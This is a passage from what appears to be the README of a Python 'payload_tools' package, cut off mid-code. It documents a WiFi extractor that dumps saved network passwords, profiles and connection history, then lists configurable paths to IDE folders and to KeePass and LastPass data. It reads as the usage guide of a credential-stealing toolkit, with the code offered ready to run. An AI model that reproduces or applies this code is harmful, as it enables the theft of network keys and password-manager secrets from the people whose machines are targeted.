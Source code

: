 ### 8. WiFi Extractor Tutorial

#### Basic Usage:
```python
from payload_tools.Wifi import WiFiExtractor

# Initialize extractor
extractor = WiFiExtractor()

# Extract WiFi data
wifi_data = extractor.extract_wifi_data()

# Process data
print(f"WiFi Networks: {len(wifi_data['networks'])}")
print(f"Current Connection: {wifi_data['current_connection']}")
print(f"Connection History: {len(wifi_data['history'])}")

# Process networks
for network in wifi_data['networks']:
    print(f"SSID: {network['ssid']}")
    print(f"Password: {network['password']}")
    print(f"Security: {network['security']}")
    print(f"Signal Strength: {network['signal_strength']}")
    print(f"Last Connected: {network['last_connected']}")
    print("-" * 30)
```

#### Advanced WiFi Operations:
```python
# Extract network profiles
profiles = extractor.extract_network_profiles()

# Extract connection history
history = extractor.extract_connection_history()

# Extract saved passwords
passwords = extractor.extract_saved_passwords()

# Extract network configuration
config = extractor.extract_network_config()

# Extract wireless adapters
adapters = extractor.extract_wireless_adapters()
```

---

## 🔧 Advanced Configuration

### Custom Extraction Paths:
```python
# Custom IDE paths
ide_paths = {
    'visual_studio': 'C:\\Users\\{username}\\Documents\\Visual Studio 2019',
    'intellij': 'C:\\Users\\{username}\\.IntelliJIdea2019.3',
    'eclipse': 'C:\\Users\\{username}\\eclipse-workspace',
    'vscode': 'C:\\Users\\{username}\\.vscode'
}

# Custom password manager paths
password_manager_paths = {
    'keepass': 'C:\\Users\\{username}\\Documents\\KeePass',
    'lastpass': 'C:\\Users\\{username}\\AppData\\Local\\LastPass',
```